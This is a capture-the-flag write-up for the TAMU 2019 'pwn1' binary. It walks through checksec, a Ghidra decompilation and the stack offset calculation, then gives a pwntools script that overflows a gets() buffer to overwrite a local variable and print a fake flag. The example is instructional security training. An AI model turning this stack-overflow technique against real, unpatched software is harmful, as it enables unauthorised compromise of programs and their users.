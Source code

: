 ### Binary Exploitation

### Source: Tamu19

### Basic File Check

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ file tamu19_pwn1 
tamu19_pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ checksec tamu19_pwn1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/tamu19_pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see its a `x86` binary which is `dynamically linked`, `non-stripped` and its protection are `NX,PIE`

Now i'll run it to have an idea of what it does

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1                           
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
pwner
I don't know that! Auuuuuuuugh!
```

Lets decompile the binary using ghidra

```
{
  int input_length;
  char input [43];
  int secret;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  secret = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"Sir Lancelot of Camelot\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"To seek the Holy Grail.\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(input);
  if (secret == L'\xdea110c8') {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

We can see what it does

```
1. It asks for the username which is (Sir Lancelot of Camelot) and uses fget to receieve the input which is then stored in a 43bytes buffer 
2. If that first codition isn't meet it exits but if it if we get another question
3. What's the quest which is (To seek the Holy Grail.) and the answer is recieved using fget which is also still stored in the 43bytes buffer 
4. If the condition isn't meet it exits but if it is we get another question
5. What is my secret 
6. It does an if check to compare the value stored in the secret variable with 0xdea110c8
7. if its correct it prints out the flag else it exits
```

Now from this we know that get can perform a buffer overflow cause the third question uses an insecure input receive method which is `get`

Also the problem is, in the code the secret variable currently has a value of `0`

So when the if check reaches we won't get the flag cause the comparism isn't meet

So lets try it now 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
lol 
I don't know that! Auuuuuuuugh!
```

Now lets start it again and this time around send 100 A's when we get to the third question

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 -c "print 'A'*100"                               
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1             
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
zsh: segmentation fault  ./tamu19_pwn1
```

Sweet we get a segfault

Now lets get the offset. Which we will get from looking at the stack frame in ghidra


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __cdecl main(void)
             int               EAX:4          <RETURN>                                XREF[1]:     00010807(W)  
             undefined4        EAX:4          input_length                            XREF[1]:     00010807(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  
```

Nice we see our input starts with an offset of `-0x43` and the offset to secret is `-0x18`

Therefore this gives an offset of `0x43 - 0x18 = 0x2b` between the start of our input and the secret variable

So bascially what we'll do is to overwrite the variable secret with the content of `0xdea110c8`

Here's my script below

```
from pwn import *

io = process('./tamu19_pwn1')

answer_1 = "Sir Lancelot of Camelot"
answer_2 = "To seek the Holy Grail."

io.sendlineafter(b'?', answer_1)
io.sendline(answer_2)

offset = "0"*0x2b
overwrite = p32(0xdea110c8)

secret = offset + overwrite 

io.send(secret)
io.send('\n')
io.interactive()
```

Lets run it 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 pwnexploit.py
[+] Starting local process './tamu19_pwn1': pid 103999
[*] Switching to interactive mode

[*] Process './tamu19_pwn1' stopped with exit code 0 (pid 103999)
What... is your quest?
What... is my secret?
Right. Off you go.
FLAG(this_is_a_fake_flag}

[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive

```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>







